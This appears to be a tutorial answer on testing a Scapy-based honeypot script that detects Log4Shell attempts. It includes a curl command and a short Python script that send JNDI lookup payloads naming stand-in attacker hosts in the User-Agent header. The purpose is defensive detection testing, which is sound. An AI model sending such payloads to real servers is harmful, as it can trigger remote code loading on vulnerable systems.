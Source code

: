 To test if the Scapy script is working, you can follow these steps:

### 1. **Verify Scapy Installation**
Make sure you have installed Scapy. If not, you can install it using:

```bash
pip install scapy
```

### 2. **Modify Network Interface**
Check the network interface on which you want to monitor traffic (for example, `eth0`, `wlan0`, etc.). If you're on a different network interface, update the following line in the script:

```python
interface = 'eth0'
```

To find your network interface, run this command on Linux or macOS:

```bash
ifconfig
```

Or on Windows:

```bash
ipconfig
```

### 3. **Run the Script**
Run the script with `sudo` or administrative privileges to give it permission to access the network interface.

```bash
sudo python3 monitor.py
```

### 4. **Simulate an Exploit Attempt**
To test whether the script can detect a **Log4Shell**-like payload, you can simulate an HTTP request that contains a **JNDI lookup string**.

Here are a few methods to simulate this:

#### a) **Send a cURL Request** (Linux/macOS/Windows)

Open a terminal and send a request to your honeypot’s IP address with a string that simulates a Log4Shell attack:

```bash
curl -H "User-Agent: ${jndi:ldap://attacker.com/a}" http://<your_honeypot_ip>
```

This command will send an HTTP request with the malicious payload in the `User-Agent` header, which your Scapy script should detect.

#### b) **Using a Python Script to Simulate HTTP Request**:

Here’s a simple Python script to simulate an HTTP request with the Log4Shell payload:

```python
import requests

# Target your honeypot or local web server
url = "http://<your_honeypot_ip>"

# Send an HTTP request with a suspicious User-Agent header
headers = {
    "User-Agent": "${jndi:ldap://malicious-server.com/a}"
}
response = requests.get(url, headers=headers)

print(f"Status Code: {response.status_code}")
```

Replace `<your_honeypot_ip>` with the IP address where your honeypot is running.

### 5. **Check for Detection**
If the Scapy script is working correctly, it should detect the suspicious JNDI lookup pattern and print an alert similar to:

```
[ALERT] Potential Log4Shell exploit attempt detected!
Source IP: 192.168.1.100
Destination IP: 192.168.1.10
Payload: GET / HTTP/1.1
Host: <your_honeypot_ip>
User-Agent: ${jndi:ldap://malicious-server.com/a}
...
```

### Troubleshooting Tips:
- **Network Interface**: Make sure you're sniffing on the correct network interface. Use `ifconfig` or `ipconfig` to verify the active interface on your system.
- **Permissions**: Scapy requires root or administrator privileges to sniff network traffic. Ensure that you're running the script with `sudo` (Linux/macOS) or as an administrator (Windows).
- **Traffic Generation**: Ensure that you are actually generating network traffic toward the honeypot to test the detection. Without traffic, the script will not have anything to detect.

Once you’ve simulated the exploit and the script successfully detects it, you’ll know that your monitoring setup works!